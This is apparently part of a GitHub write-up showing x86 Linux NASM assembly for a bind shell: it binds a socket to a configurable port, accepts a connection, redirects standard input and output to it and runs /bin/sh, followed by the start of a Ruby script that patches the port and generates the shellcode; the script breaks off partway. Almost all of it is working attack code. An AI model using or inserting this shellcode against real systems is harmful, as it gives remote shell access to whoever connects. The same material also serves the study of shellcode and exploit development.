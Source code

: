 ```nasm
  push ecx                            ; 0x0; this will be overwritten by the next two instructions
  mov byte [esp], AF_INET             ; esp = 0x00000002
  mov word [esp + 0x2], PORT          ; esp = 0xd2040002
  push esp                            ; push sockaddr
  pop ecx                             ; ecx = &sockadddr
  push 0x10                           ; 16
  pop edx                             ; edx = 16
  mov ebx, edi                        ; ebx = sockfd
  mov ax, BIND                        ; bind(2)
  int 0x80                            ; syscall bind(2)

  ; listen(sockfd, 0)                 ; ebx already contain the sockfd from previous syscall
  xor ecx, ecx                        ; clear ecx
  mov ax, LISTEN                      ; listen(2)
  int 0x80                            ; syscall listen(2)

  ; accept(sockfd, NULL, NULL, NULL)  ; ebx already contain the sockfd from previous syscall
  mov edx, ecx                        ; clear edx
  xor esi, esi                        ; clear esi
  mov ax, ACCEPT                      ; accept4(2)
  int 0x80                            ; syscall accept4(2)

  ; dup(sockfd, fd)
  mov ebx, eax                        ; ebx = new sockfd
  push 0x3                            ; prepare esp for ecx
  pop ecx                             ; ecx = 0x3
loop:
  xor eax, eax                        ; clear eax
  mov al, DUP                         ; dup(2)
  dec ecx                             ; decrement ecx to cover all 0x2, 0x1, and 0x0 fds
  int 0x80                            ; syscall dup(2)
  jne loop                            ; loop until ecx is zero

  ; execve('/bin//sh', NULL, NULL)
  xor ebx, ebx                        ; clear ebx
  mul ebx                             ; clear eax and edx
  push ebx                            ; push NULL
  push 0x68732f2f                     ; "hs//"
  push 0x6e69622f                     ; "nib/"
  mov ebx, esp                        ; ebx = esp address
  mov al, EXECVE                      ; execve(2)
  int 0x80                            ; syscall execve(2)
```

## Dynamic Configuration
Using a simple Ruby script below, the `PORT` number can be dynamically assigned:
```ruby
#!/usr/bin/env ruby
# Author: Jason Villaluna

require 'optparse'

def run
  parse_args
  @port = to_hex(@port)
  @filename = @filename
  replace_port
  compile_nasm
  @shellcode = generate_shellcode
  replace_shellcode
  compile_binary
rescue OptionParser::MissingArgument
```